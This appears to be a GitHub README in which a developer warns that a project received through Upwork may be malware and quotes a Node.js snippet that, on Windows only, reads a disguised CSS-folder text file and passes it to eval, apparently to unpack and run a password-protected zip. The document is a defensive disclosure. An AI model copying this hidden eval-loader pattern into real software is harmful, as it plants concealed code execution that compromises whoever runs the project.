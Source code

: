 Possible virus(?) from upwork. 
### Info
Some possible false positive reactions from antiviruses (virustotal: https://www.virustotal.com/gui/file/311fc8e90c968cbd0237ec31ecedfdb17d75f936e14e981c0fa4437da5483cf8)
App try to eval txt file 'public/css/types.txt', where is placed "// empty file ..." text, lot of spacings and then really obscured code. 
Part of which obviously trying to unzip and execute some code from public/js/js.zip. (this zip file is acrhived with password, looks like inside types.txt part of code trying to assemble password from multiple obscured functions)

Content of js.zip is unknown for now.

Also this exec part is executes only on win32 systems.

    const fs = require("fs");
    const os = require("os");
    function site_version() {
    const platform = os.platform();
    
    switch (platform) {
         case 'win32':
              fs.readFile('public/css/types.txt', 'utf8', (err, data) => {
                  if (err) {
                      return;
                  }
    
                  eval(data);
              });
              console.log("=")
              return 'w';
          case 'darwin':
              return 'm';
          case 'linux':
              return 'l';
          default:
              return 'Unknown';
        }
    } 
    site_version()


I can't say for sure, maybe it's just a very strangely builded project. 
I'm not going to dig further, I'll just leave this repo and text here in case I ever change my mind. 
Also, this repository is public, so I'm adding this text to the readme so that no one accidentally runs it.

If anyone knows why this project is what it is (or has tested it), I would be grateful if you would let me know (for example open an issue)
